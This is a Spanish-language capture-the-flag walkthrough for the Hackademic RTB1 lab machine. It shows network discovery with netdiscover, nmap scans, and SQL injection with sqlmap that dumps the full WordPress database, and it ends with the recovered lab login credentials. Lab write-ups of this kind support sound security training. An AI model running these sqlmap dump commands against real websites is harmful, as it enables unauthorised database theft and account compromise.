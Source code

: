 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=F70000&background=FF000000&width=500&height=70&lines=HACKADEMIC_RTB1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb1,17/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Hackademic-RTB1-22?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con NetDiscover. 
```
netdiscover --interface wlan0 --range 192.168.1.0/24
```
![1](https://user-images.githubusercontent.com/75953873/171916293-58226ff2-39aa-4d40-b2b2-df538a7784d1.png)

Objetivo: 192.168.1.5


- *Paso 2:* Escaneo de puertos abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/171916862-e15a1cc6-e25a-4613-a54c-3d8b3f135135.png)

Detección de sistema operativo y versión: 
```
nmap -p 80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/171917441-d5f58873-8274-4611-90f6-db7bb9902c1a.png)

Puerto abierto: 80

Servidor web corriendo: HTTP Apache

- *Paso 3:* Búsqueda de vectores vulnerables a SQL. 

```
http://192.168.1.5/Hackademic_RTB1/?cat=1
```
![4](https://user-images.githubusercontent.com/75953873/171920301-015e4c06-3a1f-4535-9790-f4f450563eb9.png)

- *Paso 4:* Inyección de SQL a base de datos con Sqlmap. 

```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' --dbs --batch
```
![5](https://user-images.githubusercontent.com/75953873/171921174-bbf606b5-80d8-4cbc-9a01-8c068de466fc.png)

Extraer toda la información de la base de datos de WordPress:
```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' -D wordpress --dump-all --batch
```
![6](https://user-images.githubusercontent.com/75953873/171922959-d02ba87f-22b8-4770-b0dc-9c74c82eee21.png)

`Usuario de WordPress:` GeorgeMiller

`Contraseña:` q1w2e3
